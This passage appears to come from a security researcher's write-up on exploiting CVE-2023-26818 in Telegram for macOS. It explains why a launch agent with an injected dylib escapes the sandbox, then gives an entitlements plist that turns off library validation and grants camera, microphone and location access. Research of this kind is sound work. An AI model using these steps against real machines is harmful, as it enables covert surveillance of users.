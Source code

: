 ## **Sandbox Bypass**

After going through dozens of resources non-mentioned the root-cause or the reason why the `launch agent` can bypass the

sandbox. But, I found 2 reasons that are closer to being true and one of them makes more sense:

&nbsp;

- When the app runs through `launchd` then it's managed by `launchd` and works under it, As a result, it bypasses the sandbox.
    
    &nbsp;
    
- When a malicious code such as a `DyLib` gets loaded with the program in the agent, It leads the library to act the same way
    
    &nbsp;
    
    as the program. Then it will be able to obtain the same permissions as the running app which makes it bypass the sandbox.
    

&nbsp;

I see the second reason as more logical. Because `launchd` implementation has these thoughts to make sure the app is running as it

has to. Now, After we made almost everything clear, We can start to exploit the `CVE-2023-26818` while the sandbox is

activated.

&nbsp;

# **Exploitation**

What we need now is to reassign the `Entitlements` to telegram and set the sandbox to `true`, In the first part, we explained

how to do tho, but we will show it again with the changes (`Only the signing part`). The following are the `Entitlements` we

need:

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">
<plist version="1.0">
<dict>
    <key>com.apple.security.app-sandbox</key>
    <true/>
    <key>com.apple.security.application-groups</key>
    <array>
        <string>6N38VWS5BX.ru.keepcoder.Telegram</string>
        <string>6N38VWS5BX.ru.keepcoder.Telegram.TelegramShare</string>
    </array>
    <key>com.apple.security.cs.allow-dyld-environment-variables</key>
    <true/>
    <key>com.apple.security.cs.disable-library-validation</key>
    <true/>
    <key>com.apple.security.device.audio-input</key>
    <true/>
    <key>com.apple.security.device.camera</key>
    <true/>
    <key>com.apple.security.personal-information.location</key>
    <true/>
</dict>
</plist>
```